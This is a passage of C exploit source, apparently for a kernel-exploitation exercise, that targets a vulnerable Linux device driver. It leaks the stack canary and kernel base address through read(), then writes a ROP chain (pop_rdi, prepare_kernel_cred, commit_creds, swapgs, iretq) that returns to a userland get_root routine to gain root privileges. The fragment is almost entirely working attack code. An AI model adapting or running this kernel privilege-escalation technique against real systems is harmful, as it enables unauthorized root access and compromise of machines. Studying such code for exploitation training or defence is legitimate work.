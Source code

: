 ```c
		return -1;
	}
	printf("Device Opened!\n");

	/*
	for (int i=1; i<25; i++){
		unsigned long leak[i];
		read(fd, leak, sizeof(leak));
		for (int j=0; j<i; j++){
			printf("Cycle: %d ||| Idx: %d ||| Content: %lx\n",i, j, leak[j]);
		}
	}
	*/

	unsigned long canary;
	unsigned long kbase;

	unsigned long leak[24];
	read(fd, leak, sizeof(leak));
	canary = leak[16];
	kbase = leak[21] - 0x1c89f8;

	printf("Canary: %lx\n", canary);
	printf("Kernel Base: %lx\n", kbase);

	ioctl(fd, 0x20, 320);

	signal(SIGSEGV, get_root);

	/*
	for (int i=10; i<25; i++){
		unsigned long payload[i];
		write(fd, payload, sizeof(payload));
		printf("Offset: %d\n", i);
	}
	*/

	unsigned long pop_rdi = kbase + 0x1518;
	unsigned long iretq = kbase + 0x23cc2;
	unsigned long commit_creds = kbase + 0x87e80;
	unsigned long prepare_kernel_cred = kbase + 0x881c0;
	unsigned long swapgs = kbase + 0xc00eaa;

	unsigned long payload[40];
	int offset = 16;
	payload[offset++] = canary;
	payload[offset++] = kbase;
	payload[offset++] = pop_rdi;
	payload[offset++] = 0x0;
    payload[offset++] = prepare_kernel_cred;
    payload[offset++] = commit_creds;
	payload[offset++] = swapgs;
	payload[offset++] = 0x0;
	payload[offset++] = iretq;
	payload[offset++] = (unsigned long) get_root;
    payload[offset++] = user_cs;
	payload[offset++] = user_rflags;
	payload[offset++] = user_sp;
 	payload[offset++] = user_ss;
	write(fd, payload, sizeof(payload));
	return 0;
}
```